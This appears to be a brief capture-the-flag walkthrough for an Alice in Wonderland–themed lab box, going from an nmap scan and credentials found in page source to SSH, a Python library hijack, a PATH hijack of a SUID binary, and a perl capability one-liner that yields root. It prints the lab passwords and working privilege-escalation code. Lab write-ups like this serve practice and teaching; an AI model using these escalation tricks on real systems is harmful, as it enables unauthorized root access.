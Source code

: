start with nmap

http ssh open.

/r/a/b/b/i/t

in source code found.

`alice:HowDothTheLittleCrocodileImproveHisShiningTail`

ssh in.

alice can run `/usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py` as rabbit user.

walrus_and_the_carpenter.py use random. we can create random.py in currunt direcoty. add python script in it.

```python3
import os
os.system("/bin/bash")

```

privs esca to rabbit.

rabbit --hatter

rabbit home dir has teaparty exe file with suid bit enable.

this will use date cmd. 

add /tmp to PATH.

creaete date exec

```bash
#!/bin/bash

/bin/bash

```

exec teaparty. it will exe our date file .

get hatter user.	

in hatter home dir found password : `WhyIsARavenLikeAWritingDesk?`

hatter has cap_suid bit set for perl

perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'

get root.